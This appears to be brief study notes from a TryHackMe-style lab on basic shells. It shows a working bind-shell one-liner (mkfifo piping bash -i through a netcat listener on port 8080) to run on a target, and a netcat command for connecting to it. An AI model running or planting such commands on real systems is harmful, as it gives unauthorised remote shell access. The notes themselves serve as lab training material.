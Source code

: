 # THM_Shells
Basic Shells


### **Bind Shells BLUF**
Let's create a bind shell. In this case, the attacker can use a command like the one below on the $${\color{red}target\  machine}$$.

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

Once the command is executed, it will wait for an incoming connection.

#### **Attacker Connects to the Bind Shell**

🚨🚨🚨  Use Netcat on Attack computer with the following command to connect:
```bash
nc -nv TARGET_IP 8080
```
